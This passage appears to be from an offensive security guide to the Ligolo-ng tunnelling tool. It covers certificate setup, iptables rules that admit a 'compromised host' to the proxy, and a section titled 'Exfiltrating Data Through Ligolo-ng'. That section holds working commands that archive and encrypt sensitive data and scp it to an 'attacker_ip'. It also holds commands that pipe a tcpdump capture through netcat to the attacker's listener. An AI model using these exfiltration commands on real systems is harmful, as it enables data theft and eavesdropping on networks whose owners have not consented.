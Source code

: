 ## Securing Ligolo-ng Communications

### Using Custom Certificates

Instead of self-signed certificates, generate proper ones:

```bash
# Generate CA key and certificate
openssl genrsa -out ca.key 4096
openssl req -new -x509 -key ca.key -out ca.crt

# Generate server key and CSR
openssl genrsa -out server.key 4096
openssl req -new -key server.key -out server.csr

# Sign the CSR with the CA
openssl x509 -req -in server.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out server.crt

# Start proxy with custom certificate
./proxy -cert server.crt -key server.key -laddr 0.0.0.0:11601
```

### Implementing Access Controls

Restrict IP addresses that can connect to your proxy:

```bash
# Using iptables to limit connections
sudo iptables -A INPUT -p tcp -s compromised_host_ip --dport 11601 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 11601 -j DROP
```

## Exfiltrating Data Through Ligolo-ng

### Encrypted File Transfer

```bash
# Create encrypted archive
tar -czvf - /path/to/sensitive/data | openssl enc -aes-256-cbc -out data.tar.gz.enc

# Transfer through tunnel
scp data.tar.gz.enc user@attacker_ip:/path/on/attacker/

# Decrypt on attacker machine
openssl enc -aes-256-cbc -d -in data.tar.gz.enc | tar -xzv
```

### Stream Exfiltration

For continuous data streaming:

```bash
# On target machine
tcpdump -i eth0 -w - | gzip -c | nc attacker_ip 9001

# On attacker machine
nc -lvp 9001 | gunzip -c > captured_traffic.pcap
```
